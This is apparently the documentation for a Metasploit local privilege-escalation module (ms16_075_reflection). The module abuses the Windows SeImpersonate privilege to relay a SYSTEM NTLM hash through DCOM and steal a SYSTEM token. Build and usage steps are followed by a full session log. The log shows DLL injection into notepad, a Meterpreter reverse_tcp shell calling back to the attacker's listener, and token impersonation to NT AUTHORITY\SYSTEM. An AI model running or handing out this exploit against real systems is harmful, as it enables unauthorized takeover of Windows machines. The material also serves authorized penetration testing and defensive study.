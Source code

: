 ## Introduction

  This module will abuse the SeImperonsate privilege commonly found in
services due to the requirement to impersonate a client upon
authentication. As such it is possible to impersonate the SYSTEM account
and relay its NTLM hash to RPC via DCOM. The DLL will perform a MiTM
attack at which intercepts the hash and relay responses from RPC to be
able to establish a handle to a new SYSTEM token. Some caveats : Set
your target option to match the architecture of your Meterpreter
session, else it will inject the wrong architecture DLL into the process
of a seperate architecture. Additionally, after you have established a
session, you must use incognito to imperonsate the SYSTEM Token.

## Build Instructions

This builds using visual studio 2017 and tools v141.  Attempts
to compile with previous verstions of build tools will succeed but
the resulting binary fails to exploit the vulnerability.

## Usage

  You'll first need to obtain a session on the target system.
  Next, once the module is loaded, one simply needs to set the
```payload``` and ```session``` options, in addition to architecture.

  Your user at which you are trying to exploit must have `SeImpersonate`
privileges.

  The module has a hardcoded timeout of 20 seconds, as the attack may
not work immediately and take a few seconds to start. Also, check to
make sure port 6666 is inherently not in use else the exploit will not
run properly.

## Scenarios

```
  Name Current Setting Required Description
   ---- --------------- -------- -----------
   SESSION 48 yes The session to run this module on. Payload options 
(windows/x64/meterpreter/reverse_tcp):
   Name Current Setting Required Description
   ---- --------------- -------- -----------
   EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, 
process, none)
   LHOST ens3 yes The listen address (an interface may be specified)
   LPORT 3312 yes The listen port Exploit target:
   Id Name
   -- ----
   1 Windows x64 msf exploit(windows/local/ms16_075_reflection) > run 
[*] Started reverse TCP handler on -snip-:3312
[*] Launching notepad to host the exploit... [+] Process 3564 launched.
[*] Reflectively injecting the exploit DLL into 3564...
[*] Injecting exploit into 3564...
[*] Exploit injected. Injecting payload into 3564...
[*] Payload injected. Executing exploit..
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to -snip-
[*] Meterpreter session 49 opened (-snip-:3312 -> -snip-:55306) at 2018-08-03 01:54:18 -0400
meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > impersonate_token 
'NT AUTHORITY\SYSTEM'
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getsystem -t 1 ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```
